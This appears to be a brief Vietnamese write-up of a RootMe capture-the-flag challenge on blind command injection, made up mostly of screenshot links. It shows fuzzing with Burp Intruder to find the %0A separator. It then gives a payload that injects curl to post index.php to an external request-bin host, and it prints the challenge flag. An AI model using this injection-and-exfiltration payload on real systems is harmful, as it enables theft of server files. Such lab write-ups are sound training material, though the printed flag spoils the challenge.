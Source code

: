 ![image](https://github.com/nguyenngocdung18/RootMe/assets/134156226/62ca2c38-ed7a-4ab9-801d-4c17f1ee2e5a)

Sử dụng Burp Intruder để xem kí tự ào có thể inject

![image](https://github.com/nguyenngocdung18/RootMe/assets/134156226/335d21f5-860b-4431-b8a3-59d12b315629)

![image](https://github.com/nguyenngocdung18/RootMe/assets/134156226/f9d20150-1472-4e4a-92ed-628dabc033c3)

=> ```%0A```

Vì nó chỉ hiển thị Ping OK hoặc Syntax Error nên ta cần chuyển nội dung của tệp index.php sang một chỗ khác
ở đây dùng câu lệnh curl ```%0Acurl -X POST -F file=@index.php https://eoa5xfbpq29fucc.m.pipedream.net```.
Nhớ thay khoảng trắng bằng %20 

![image](https://github.com/nguyenngocdung18/RootMe/assets/134156226/863ac7e1-2665-450c-a0a6-43578ad1a85b)

Nếu có thể thì dùng Burp Colaborator Client thì tiện nhất, không thì có thể tạo trên RequestBin
Truy cập vào trang web vào xem thôi. Ta được flag

=> Comma@nd_1nJec7ion_Fl@9_1337_Th3_G@m3!!!

```https://eoa5xfbpq29fucc.m.pipedream.net/```

